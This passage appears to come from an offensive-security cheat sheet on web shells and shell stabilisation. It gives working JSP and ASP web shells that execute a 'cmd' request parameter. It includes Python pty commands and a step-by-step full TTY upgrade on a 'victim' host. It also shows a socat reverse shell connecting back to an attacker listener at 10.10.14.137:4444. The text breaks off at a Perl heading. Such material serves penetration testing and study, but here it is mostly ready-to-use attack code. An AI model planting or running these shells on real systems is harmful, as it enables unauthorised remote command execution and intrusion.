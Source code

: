 #### JSP Web Shell

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

#### ASP/ASPX Web Shell

```asp
<% Response.Write(CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")).StdOut.ReadAll()) %>
```

### Upgrading Shells

Basic shells often lack features like tab completion. These methods create more functional shells.

#### Python TTY

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

#### Full TTY Upgrade (Linux)

```bash
# Step 1: Use Python to spawn bash
python -c 'import pty; pty.spawn("/bin/bash")'

# Step 2: Background the shell with Ctrl+Z

# Step 3: Configure local terminal
stty raw -echo; fg

# Step 4: Configure terminal on victim
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 38 columns 116
```

#### Socat Fully Interactive Shell

```bash
# Attacker: Start listener
socat file:`tty`,raw,echo=0 tcp-listen:4444

# Victim: Connect back
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.137:4444
```

### Interactive Shell Creation

#### Using Perl
